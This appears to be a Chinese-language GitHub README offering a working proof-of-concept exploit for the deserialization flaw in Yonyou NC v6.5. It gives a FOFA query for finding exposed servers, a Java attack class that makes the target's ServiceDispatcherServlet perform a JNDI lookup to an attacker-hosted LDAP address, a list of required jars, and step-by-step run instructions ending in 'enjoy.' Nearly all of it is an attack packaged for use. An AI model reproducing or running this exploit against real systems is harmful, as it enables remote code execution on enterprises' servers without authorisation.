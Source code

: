 # 用友nc6.5反序列化依赖jar包

- yonyou NC v6.5 ESA 
- fofa：title= "YONYOU NC"

## 攻击java代码

```java
import nc.bs.framework.common.NCLocator;

import java.util.Properties;


public class poc {

    public static void attack(String url, String jndipath) {
        Properties env = new Properties();
        if (!url.startsWith("http")) {
            url = "http://" + url;
        }
        env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
        NCLocator locator = NCLocator.getInstance(env);
        locator.lookup(jndipath);
    }

    public static void main(String[] args) {
        attack("http://192.168.1.1:81", "ldap://192.168.1.2:1099/remote");
    }
}
```
运行起来主要报`classNotFound`，必需第三方jar包如下：

- ncdepend.jar
- log4j-1.2.15.jar
- log.jar


## 使用方法

- jetbrains IDEA ：`file -> New -> Project -> Java`
	- _ [点击更多以入门Java](https://blog.csdn.net/oschina_41790905/article/details/79475187) _
	- `src目录 -> New -> Java Class -> poc.java`即可；
	- `Project Structure -> Librabries -> + `添加lib文件夹即可；  
	- 填入主方法下`attck url & jndipath` -> `run poc.main().
- enjoy.
